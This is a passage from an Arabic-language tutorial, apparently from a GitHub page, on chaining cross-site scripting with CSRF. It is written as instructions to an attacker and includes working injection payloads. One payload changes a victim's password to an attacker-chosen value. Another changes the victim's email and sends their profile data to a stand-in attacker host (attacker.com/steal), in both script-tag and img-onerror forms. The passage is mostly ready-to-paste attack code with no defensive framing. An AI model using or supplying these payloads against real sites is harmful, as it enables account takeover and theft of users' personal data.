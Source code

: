 3. **إنشاء كود XSS ينفذ CSRF**:
   - استخدم JavaScript عشان تبعت طلب CSRF من داخل الموقع.
   - لو فيه CSRF Token، حاول تستخرجه باستخدام XSS قبل ما تبعت الطلب.

4. **توصيل الهجوم للضحية**:
   - أدخل كود XSS في الموقع (مثل في تعليق أو رابط).
   - لما الضحية يشوف الكود (زي تعليقك)، الكود هينفذ وينفذ طلب CSRF.

#### **مثال عملي 1: تغيير كلمة السر باستخدام XSS + CSRF**
افترض موقع فيه ثغرة XSS في حقل تعليقات، والموقع بيغير كلمة السر بطلب POST:
```
POST /change-password
Content-Type: application/x-www-form-urlencoded
new_password=attacker123
```
- **كود XSS**:
  ```javascript
  var xhr = new XMLHttpRequest();
  xhr.open('POST', '/change-password', true);
  xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr.send('new_password=attacker123');
  ```
- **حقن الكود**:
  - أدخل الكود في حقل التعليقات:
    ```html
    <script>
      var xhr = new XMLHttpRequest();
      xhr.open('POST', '/change-password', true);
      xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
      xhr.send('new_password=attacker123');
    </script>
    ```
  - لما الضحية (زي أدمن أو مستخدم) يشوف التعليق، كلمة السر هتتغير، وتقدر تسجل دخول بالباسوورد الجديد.

#### **مثال عملي 2: سرقة بيانات المستخدم مع CSRF**
افترض موقع بيديك بيانات المستخدم بطلب GET:
```
/api/user-profile
```
وبتقدر تغير الإيميل بطلب POST:
```
POST /update-email
Content-Type: application/x-www-form-urlencoded
email=attacker@example.com
```
- **كود XSS**:
  ```javascript
  // نفّذ طلب CSRF لتغيير الإيميل
  var xhr1 = new XMLHttpRequest();
  xhr1.open('POST', '/update-email', true);
  xhr1.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
  xhr1.send('email=attacker@example.com');

  // سرقة بيانات المستخدم
  var xhr2 = new XMLHttpRequest();
  xhr2.open('GET', '/api/user-profile', true);
  xhr2.onload = function() {
    fetch('https://attacker.com/steal?data=' + encodeURIComponent(xhr2.responseText));
  };
  xhr2.send();
  ```
- **حقن الكود**:
  - أدخل الكود في حقل XSS (مثل تعليق أو URL):
    ```html
    <img src=x onerror="var xhr1=new XMLHttpRequest();xhr1.open('POST','/update-email',true);xhr1.setRequestHeader('Content-Type','application/x-www-form-urlencoded');xhr1.send('email=attacker@example.com');var xhr2=new XMLHttpRequest();xhr2.open('GET','/api/user-profile',true);xhr2.onload=function(){fetch('https://attacker.com/steal?data='+encodeURIComponent(xhr2.responseText))};xhr2.send();">